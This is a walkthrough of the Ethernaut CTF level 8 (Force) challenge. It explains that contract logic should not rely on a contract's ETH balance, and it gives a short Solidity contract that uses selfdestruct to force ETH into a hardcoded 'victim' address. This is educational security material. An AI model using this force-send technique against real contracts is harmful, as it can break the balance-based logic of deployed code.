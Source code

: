 # Ethernaut Level 8 (Force) Walkthrough

The following is a semantic solution walkthrough of the Ethernaut CTF level 8. The aim is to give a readable explanation of the concepts involved, and present a step-by-step walkthrough of the solution. In addition, tangential explanations will also be given where essential.

The lesson here is to not rely on the balance of a contract for logic. This is because an attacker can send ETH to a contract that is otherwise incapable of receiving ETH. This is achieved by sending ETH to a contract and have it `selfdesctruct(targetContractAddress)` passing it the address of the target contract. The contract will self destruct while force-sending any available ETH to the target contract.

#### Solution

The solution was to deploy a contract, send some ETH to it, and have it self desctruct while sending remaining balance to the target contract.

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;

contract ForceSendEth {

    address payable victim = payable(0x40Ced681b1D4443D55523b2D48a2009cF7fBac29);
    
    constructor() {}

    function forceSend() public {
        selfdestruct(victim);
    }

    receive() external payable {}

}
```

Post deployment, send some ETH to this contract's instance, and then call `forceSend()`.